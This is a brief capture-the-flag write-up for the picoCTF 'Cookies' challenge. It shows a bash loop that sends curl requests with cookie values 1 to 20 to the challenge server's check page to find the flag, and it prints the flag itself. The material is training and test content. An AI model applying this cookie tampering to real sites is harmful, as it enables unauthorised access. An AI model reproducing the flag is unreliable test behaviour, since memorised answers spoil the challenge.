 ## Descripcion.
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)

## Pistas.
(None)

## Solucion.
```bash
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>


```

## Bandera.
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}

## Notas Adicionales.
